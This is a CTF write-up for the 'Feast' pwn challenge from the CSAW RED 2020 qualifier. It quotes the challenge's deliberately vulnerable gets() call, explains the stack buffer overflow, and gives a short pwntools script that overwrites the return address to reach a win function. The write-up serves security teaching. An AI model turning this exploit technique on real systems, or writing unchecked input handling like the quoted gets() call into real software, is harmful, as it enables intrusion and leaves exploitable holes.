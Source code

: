 ```yaml
---
title: CSAW RED 2020 Qualifier (pwn)
date: 2020-09-29
slug: /writeups/csaw-red-2020-qual-pwn
excerpt: Solutions for pwn challenges from the CSAW RED 2020 Qualification Round.
author: Darin Mao
---
```


Solutions for pwn challenges from the CSAW RED 2020 Qualification Round.

Some of the scripts in this document have been clipped for the sake of brevity.

# pwn - Feast
> We've prepared a special meal for you. You just need to find it. (This is a 32 bit program) `nc pwn.red.csaw.io 5001`

## Files
- feast
- feast.c

## Solution
```
$ checksec feast
[*] '/home/darin/ctfs/red-2020/feast/feast'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Looking at the source, there is a trivial buffer-overflow in `vuln()` that is even pointed out to us in a comment.

```c
void vuln(){
    char buf[INPUTBUF];
    gets(buf); //ruh-roh
}
```

`gets()` does no boundary checking and we can write as much data as we want to `buf`. The length of the padding can be found with a debugger by subtracting the location of the return address from the argument to `gets()`.

```python
from pwn import *

exe = ELF("./feast")
r = remote("pwn.red.csaw.io", 5001)

r.sendlineafter("> ", b"A"*44 + p32(exe.sym["winner_winner_chicken_dinner"]))
r.interactive()
```
